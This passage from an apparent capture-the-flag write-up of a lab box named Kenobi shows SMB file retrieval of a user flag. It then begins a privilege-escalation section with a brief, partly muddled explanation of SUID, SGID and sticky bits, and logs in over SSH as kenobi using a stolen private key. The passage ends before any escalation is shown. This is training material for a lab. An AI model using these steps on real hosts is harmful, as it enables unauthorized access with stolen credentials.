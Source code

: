 ```bash
  id_rsa                              N     1675  Mon May  1 07:07:15 2023
  log.txt                             N    12237  Wed Sep  4 10:49:09 2019

                9204224 blocks of size 1024. 6867756 blocks available
smb: \> get user.txt
getting file \user.txt of size 33 as user.txt (16.1 KiloBytes/sec) (average 16.1 KiloBytes/sec)
smb: \> exit
```

```bash
cat user.txt
****************************
```


--------------------------------------------


# Privilege Escalation with Path Variable Manipulation

![](https://i.imgur.com/LN2uOCJ.png)  

Lets first understand what what SUID, SGID and Sticky Bits are.

SUID Bit
- User executes the file with permissions of the _file_ owner
SGID Bit
- User executes the file with the permission of the _group_ owner.  
- File created in directory gets the same group owner.
Sticky Bit
- No meaning
- Users are prevented from deleting files from other users.

```bash
┌──(root㉿kali)-[~/.ssh]
└─# chmod 600 kenobi_id_rsa 

┌──(root㉿kali)-[~/.ssh]
└─# ls -al
total 20
drwx------  2 root root 4096 May  1 07:43 .
drwx------ 20 root root 4096 May  1 07:22 ..
-rw-------  1 root root 1105 May  1 07:22 authorized_keys
-rw-------  1 root root 1676 May  1 07:35 kenobi_id_rsa
-rw-r--r--  1 root root  142 May  1 07:43 known_hosts

┌──(root㉿kali)-[~/.ssh]
└─# ssh -i kenobi_id_rsa kenobi@10.10.48.99
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.8.0-58-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

103 packages can be updated.
65 updates are security updates.


Last login: Wed Sep  4 07:10:15 2019 from 192.168.1.147
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

kenobi@kenobi:~$ whoami
kenobi

```